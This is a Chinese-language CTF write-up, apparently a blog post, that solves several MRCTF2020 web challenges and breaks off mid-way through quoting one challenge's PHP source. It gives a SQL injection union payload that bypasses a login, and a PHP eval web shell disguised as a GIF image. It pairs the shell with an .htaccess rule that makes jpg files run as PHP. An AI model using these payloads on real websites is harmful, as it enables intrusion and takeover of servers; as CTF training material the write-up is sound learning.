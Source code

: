 `select * from user where username = '$name'`
emm，这是告诉我们语句的格式吗，
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210604222918927.png)
显示位是三个

大佬们都是直接猜测字段为`id,username,password`

mysql在进行数据查询的时候会先在数据库中产生一条虚拟的数据,刷新之后会消失

如果是构造`username=0'union seect 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1`
就可以绕过,`post`传参是把两参数分别放到各自的`SQL`语句里的，所以说后面的注释符不会把密码注释掉，写题写傻了哈哈哈哈

# [MRCTF2020]你传你🐎呢
这道题相比之前的比较简单

上传1.jpg
```php
GIF89a
<?php @eval($_post['x']);?>
```

上传改`content-type`

然后再上传`.htaccess`解析`jpg`文件为`php`文件

```php
SetHandler application/x-httpd-php
```

改`content-type`，蚁剑连接`upload`目录下的文件，根目录下找`flag`


# [MRCTF2020]Ez_bypass

如题目，简单的绕过

上页面给的代码
```php
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
```